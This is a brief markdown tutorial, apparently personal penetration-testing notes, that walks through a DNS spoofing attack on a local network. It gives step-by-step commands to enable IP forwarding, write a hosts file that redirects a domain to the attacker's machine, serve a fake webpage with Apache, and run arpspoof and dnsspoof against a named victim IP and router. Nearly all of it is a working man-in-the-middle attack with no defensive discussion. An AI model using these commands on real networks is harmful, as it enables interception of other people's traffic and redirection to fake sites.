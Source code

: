 # DNS Spoof

```bash
rfkill unblock all && airmon-ng check kill && airmon-ng start wlan0
```

* Install if not already installed

#### Lets our computer act as a bridge and forward packets based on MAC rather than IP \(like a router\) \#\#\#

```text
apt-get install bridge-utils
```

* Enable IP forwarding

#### Lets us determine the path where packets are sent, usually used by routers to decide which network to send data to \(do this every time\)

```bash
echo 1 > /proc/sys/net/ipv4/ip_forward
```

* Create DNS host file
* We will create a fake DNS response
* When the user asks for the IP of "bacon.com", we will give them our IP

Our actual IP = **192.168.0.11**

* Desktop/spoofhosts.txt

192.168.0.11 www\* 192.168.0.11 bacon.com

### Make fake website and start server

To host file on own computer, create and save index.html to var/www/html/

```html
<html>
<body>
    <h1>Some fake webpage</h1>
</body>
</html>
```

- Start apache

```bash
apache2ctl start
```

- Start ARP and DNS spoofing

We will constantly send the victim computer ARP answers telling him that the MAC address belonging to the IP of the router is our MAC address.

* Tell the victim that our IP address is the routers
* Also tell the router that we are the victims IP

Victims IP = 192.168.0.17 Router = 192.168.0.1

* New terminal for each

```bash
arpspoof -t 192.168.0.17 192.168.0.1 && arpspoof -t 192.168.0.1 192.168.0.17
dnsspoof -f Desktop/spoofhosts.txt host 192.168.0.17 and udp port 53
```